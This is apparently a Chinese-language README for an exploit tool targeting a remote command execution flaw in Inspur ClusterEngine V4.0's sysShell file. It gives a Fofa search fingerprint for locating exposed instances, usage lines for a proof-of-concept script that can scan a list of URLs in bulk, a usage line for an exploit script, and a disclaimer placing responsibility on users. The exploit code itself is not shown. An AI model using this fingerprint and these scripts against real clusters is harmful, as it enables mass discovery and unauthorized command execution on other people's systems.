 # ClusterEngineV4.0sysShell_exp
浪潮ClusterEngineV4.0 sysShell文件存在远程命令执行漏洞。

## Fofa指纹
title="TSCEV4.0"

## 工具利用

注意data中 node 中的 cu01 需要为集群中的存在主机，根据实际情况进行修改。

poc：
python3 sysshell_poc.py -u http://127.0.0.1:1111 单个url测试

python3 sysshell_poc.py -f url.txt 批量检测

exp：
python3 sysshell_exp.py -u http://127.0.0.1:1111

![](./poc.png)

![](./exp.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
